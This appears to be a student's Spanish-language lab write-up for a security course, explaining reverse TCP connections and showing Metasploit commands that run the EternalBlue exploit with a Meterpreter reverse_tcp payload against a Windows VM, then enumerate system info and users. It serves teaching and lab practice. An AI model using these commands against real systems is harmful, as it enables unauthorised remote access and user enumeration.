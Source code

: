 ```yaml
---
title: Clase semana 7
date: 2024-11-05 00:00:00 -05:00
categories: [buffer overflow, jmp, stack pointer]
tags: [shellcode, https, iis]  # TAG names should always be lowercase
---
```

# Tarea.

Requerimientos
El objetivo principal de esta tarea consiste en revisar si cada una de esas direcciones restantes es vulnerable y permite realizar el buffer overflow que, por consecuencia, permita ejecutar el exploit y obtener una shell por conexión tcp reversa.

Como segundo objetivo, el alumno debe de explicar en su procedimiento ¿qué es una conexión tcp reversa? Utilizar un gráfico relacionado a su setup de laboratorio (VM Kali vs VM Windows, VM Kali vs Host Windows) y desarrollar la explicación correspondiente.

Una vez que obtiene la conexión tcp reversa (suficiente con utilizar una de las direcciones de retorno que permite una exitosa ejecución del exploit), investigar los permisos de la shell (es decir, del usuario que ejecuta aquella shell).

#### Desarrollo

### Conexion tcp reversa
Una conexión TCP reversa es una técnica utilizada en penetration testing y ciberseguridad para establecer una conexión de red desde una máquina objetivo (victima) hacia una máquina atacante (controladora). En este contexto, la máquina atacante escucha en un puerto específico por una conexión entrante, y la máquina objetivo inicia la conexión hacia ese puerto.

````bash
use exploit/windows/smb/ms17_010_eternalblue
````
![13ms17_010_eternalblue](/assets/images/13ms17_010_eternalblue.JPG)


````bash
set payload windows/meterpreter/reverse_tcp
````
![14reverse_tcp](/assets/images/14reverse_tcp.JPG)

Se configura la dirección IP y el puerto de la máquina atacante:

![15set_lhost](/assets/images/15set_lhost.JPG)

Una vez que el exploit se ejecuta con éxito, la máquina objetivo intentará conectarse a la máquina atacante en el puerto especificado (4444 en este caso). La máquina atacante escuchará por esta conexión y, si todo está configurado correctamente, se abrirá una sesión de Meterpreter.

Una vez que obtiene la conexión tcp reversa (suficiente con utilizar una de las direcciones de retorno que permite una exitosa ejecución del exploit), investigar los permisos de la shell (es decir, del usuario que ejecuta aquella shell).

Se puede obtener Información del Sistema:
El comando sysinfo para obtener una visión general del sistema:

![16exploit](/assets/images/16exploit.JPG)

````bash
meterpreter > sysinfo
````

Usamos el comando getuid para obtener el ID del usuario actual:

````bash
meterpreter > getuid
````

Usamos el comando enum_users para listar todos los usuarios del sistema:
````bash
meterpreter > enum_users
````